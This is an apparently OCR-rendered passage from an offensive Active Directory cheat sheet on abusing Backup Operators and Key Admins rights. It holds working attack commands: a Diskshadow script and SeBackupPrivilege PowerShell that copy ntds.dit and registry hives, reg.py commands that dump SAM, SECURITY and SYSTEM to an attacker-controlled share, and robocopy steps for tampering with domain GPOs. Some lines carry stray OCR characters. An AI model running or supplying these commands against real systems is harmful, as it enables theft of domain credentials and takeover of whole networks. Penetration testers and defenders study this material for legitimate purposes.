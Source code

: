 To backup with **Diskshadow + DLLs**:

* Similar script for Diskshadow

```
set context persistent nowritersx
set metadata c:\windows\system32\spool\drivers\color\example.cabx
add volume c: alias someAliasx
createx
expose %someAlias% z:x
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.ditx
delete shadows volume %someAlias%x
resetx
```

* With [these](https://github.com/giuliano108/SeBackupPrivilege) DLLs

```powershell
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll

Copy-FileSeBackupPrivilege z:\windows\ntds\ntds.dit C:\temp\ntds.dit -Overwrite
reg save HKLM\SYSTEM c:\temp\system.hive
```

#### Registry read rights

The **Backup Operators** can read all the machines registry

```bash
python3 reg.py 'domain.local'/'user1':'Password123'@<target>.domain.local query -keyName 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon'

#Backup the SAM, SECURITY and SYSTEM registry keys
reg.py -dc-ip <DC_IP> 'domain.local'/'user1':'Password123'@server.domain.local backup -o \\<attacker_IP>\share
```

#### GPOs read/write rights

Normally the **Backup Operators** can read and rights all the domain and DC GPOs with **robocopy** in **backup** mode

* Found the interesting GPO with `Get-NetGPO` . For example **Default Domain Policy** in the Domain Controller policy
* Get the file at the path `\\dc.domain.local\SYSVOL\domain.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf` and add whatever you want in it
* Write the file with **robocopy**:

```powershell
robocopy "C:\tmp" "\\dc.domain.local\SYSVOL\domain.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit" GptTmpl.inf /ZB
```

### Key Admins

Members of this group can perform [Shadow Credentials](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory#bkmrk-on-a-computer) attacks against any objects, including the domain controllers.
